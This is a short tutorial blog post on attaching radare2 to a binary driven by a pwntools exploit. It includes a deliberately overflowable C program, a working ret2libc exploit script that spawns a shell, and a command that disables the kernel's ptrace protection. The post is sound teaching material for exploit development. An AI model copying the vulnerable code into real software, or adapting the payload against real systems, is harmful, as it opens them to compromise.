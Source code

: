 ```yaml
---
title: Debugging binaries using Pwntools and Radare2
date: 2017-08-04
categories: [Exploitation]
tags: ['Radare2', 'Pwntools', 'Debug']
image:
    path: "unsorted/r-2-logo.png"
---
```


[Pwntools](https://github.com/Gallopsled/pwntools/tree/stable)
is a cool and useful framework/library for writing exploits.

It comes with an handy [built-in method](https://docs.pwntools.com/en/stable/gdb.html)
for launching a gdb instance and attaching the target process to it. But, what
if we would like to debug the binary we are exploiting with another debugger?
That's actually very easy.


Lets take as example this simple ret2libc-vulnerable program:

```console
$ cat retlibcme.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv){
    char buf[10];
    printf("system: %p, buf: %p\n",system,buf);
    fgets(buf,100, stdin);
    return 0;
}

$ gcc -m32 -fno-stack-protector retlibcme.c -o retlibcme
```


Once we made our exploit, just add a call to the method
`util.proc.wait_for_debugger` with the pid of the process:

```python
from pwn import *

# Run process
context.arch = 'i386'
r = process(['/home/luigi/retlibcme'])

# Wait for debugger
pid = util.proc.pidof(r)[0]
print "The pid is: "+str(pid)
util.proc.wait_for_debugger(pid)

# Get the leaks and build the payload
leak = r.recvuntil('\n')
system = int(leak[8:17], 16)
buf = int(leak[24:34], 16)

payload = 'AAAAAAAAAAAAAAAAAAAAAA'
payload += pack(system)
payload += 'AAAA'             # ret address after system (who cares...)
payload += pack(buf + len(payload) + 4)
payload += '/bin/sh\0'

# Exploit
r.sendline(payload)
r.interactive()
```

Now, just run radare2 in another terminal and attach to the 
process using the pid. We can also ask radare2 to run some
commands directly starting using the `-c` option.

```console
$ r2 -d 7376 -c 'dbt $$'
PIDPATH: /home/werew/retlibcme
= attach 7376 7376
bin.baddr 0x08048000
Using 0x8048000
Assuming filepath /home/werew/retlibcme
asm.bits 32
 -- Set 'e bin.dbginfo=true' to load debug information at startup.
[0xf7746440]>
```

**NB:** If you are using ubuntu, be aware of [this](https://askubuntu.com/questions/41629/after-upgrade-gdb-wont-attach-to-process). So just `sudo` radare2 or disable the ptrace limitations by running   
`echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope`

